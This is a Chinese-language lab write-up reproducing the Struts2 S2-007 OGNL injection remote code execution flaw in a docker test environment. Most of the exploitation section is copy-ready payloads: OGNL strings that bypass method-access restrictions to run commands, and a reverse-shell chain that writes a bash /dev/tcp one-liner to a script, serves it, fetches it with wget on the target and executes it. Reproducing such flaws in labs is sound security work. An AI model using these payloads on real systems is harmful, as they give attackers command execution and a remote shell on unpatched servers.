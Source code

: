 # Struts2 S2-007 远程代码执行漏洞

## 漏洞描述

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

漏洞详情: 

- http://struts.apache.org/docs/s2-007.html

## 漏洞影响

影响版本: 2.0.0 - 2.2.3 

## 环境搭建

Vulhub执行以下命令启动s2-007测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：

![image-20220301170152780](images/202203011701833.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream())) + '
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream())) + '
```

成功接收反弹shell：

![image-20220301170256417](images/202203011702511.png)

